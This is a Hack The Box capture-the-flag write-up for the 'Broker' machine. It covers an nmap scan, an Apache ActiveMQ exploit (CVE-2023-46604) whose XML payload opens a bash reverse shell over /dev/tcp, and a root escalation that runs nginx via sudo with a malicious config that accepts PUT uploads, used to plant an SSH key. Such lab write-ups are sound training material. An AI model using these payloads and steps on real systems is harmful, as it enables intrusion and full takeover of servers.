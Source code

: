 ```yaml
---
tags:
  - linux
---
```

# HTB: [Broker](https://app.hackthebox.com/machines/Broker)

> [!tip]- Summary with Spoilers
> This box is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ). After the foothold, `nginx` can be abused via `sudo` to run a malicious web server that accepts `PUT` requests to the root filesystem, which can be used to place an SSH key for shell access as `root`.

## Services

### TCP

- Target: `broker.htb 10.10.11.243`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-broker.htb broker.htb

#### 22/tcp-ssh `OpenSSH` `8.9p1 Ubuntu 3ubuntu0.4` `(Ubuntu Linux; protocol 2.0)`

```text
__ssh-hostkey:
  256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
```

#### 80/tcp-http `nginx` `1.18.0` `(Ubuntu)`

```text
__http-title:
Error 401 Unauthorized
__http-server-header:
nginx/1.18.0 (Ubuntu)
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

```

Guess credentials `admin:admin`:

![](_/htb-broker-20240927-1.png)

#### 1883/tcp-mqtt

```text
__mqtt-subscribe:
  Topics and their most recent payloads:
    ActiveMQ/Advisory/Consumer/Topic/#:
    ActiveMQ/Advisory/MasterBroker:
```

#### 5672/tcp-amqp

```text
__amqp-info:
ERROR: AQMP:handshake expected header (1) frame, but was 65
__fingerprint-strings:
  DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
    AMQP
    AMQP
    amqp:decode-error
    7Connection from client using unsupported AMQP attempted
```

#### 8161/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-auth:
HTTP/1.1 401 Unauthorized
  basic realm=ActiveMQRealm

__http-server-header:
Jetty(9.4.39.v20210325)
```

#### 38231/tcp-tcpwrapped

#### 61613/tcp-stomp `Apache ActiveMQ`

```text
__fingerprint-strings:
  HELP4STOMP:
    ERROR
    content-type:text/plain
    message:Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
    org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
    org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
    org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
    org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
    org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
    java.lang.Thread.run(Thread.java:750)
```

#### 61614/tcp-http `Jetty` `9.4.39.v20210325`

```text
__http-favicon:
Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
__http-server-header:
Jetty(9.4.39.v20210325)
__http-methods:
  Supported Methods: GET OPTIONS
__http-trane-info:
Problem with XML parsing of /evox/about
__http-title:
Site doesn't have a title.
```

#### 61616/tcp-apachemq `ActiveMQ OpenWire transport`

```text
__fingerprint-strings:
  NULL:
    ActiveMQ
    TcpNoDelayEnabled
    SizePrefixDisabled
    CacheSize
    ProviderName
    ActiveMQ
    StackTraceEnabled
    PlatformDetails
    Java
    CacheEnabled
    TightEncodingEnabled
    MaxFrameSize
    MaxInactivityDuration
    MaxInactivityDurationInitalDelay
    ProviderVersion
    5.15.15
```

## Remote Code Execution

This machine is running a vulnerable version of [Apache ActiveMQ](https://en.wikipedia.org/wiki/Apache_ActiveMQ).

First I place the XML payload on my attack machine's web-server:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.21/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

Then I can trigger the [exploit](https://github.com/evkl1d/CVE-2023-46604):

```console
$ python3 exploit.py -i broker.htb -u http://10.10.14.21/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: broker.htb:61616
[*] XML URL: http://10.10.14.21/poc.xml

[*] Sending packet: 0000006d1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001a687474703a2f2f31302e31302e31342e32312f706f632e786d6c
```

```console
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.243] 54222
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
activemq@broker:/opt/apache-activemq-5.15.15/bin$ id
id
uid=1000(activemq) gid=1000(activemq) groups=1000(activemq)
```

## Privilege Escalation

```console
activemq@broker:~$ sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

I create a malicious config file that will accept PUT requests to the root filesystem:

```text
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
```

Than I add my SSH key:

```console
activemq#broker:/tmp$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBofhuG5ISaVIR3ywAJ7ry+rellmpJVJi2aF5lszUGwj e' > authorized_keys
activemq#broker:/tmp$ curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat authorized_keys)"
```

Then I can login via SSH as `root`:

```console
$ ssh root@broker.htb
Warning: Permanently added 'broker.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
...

root@broker:~# id
uid=0(root) gid=0(root) groups=0(root)
```

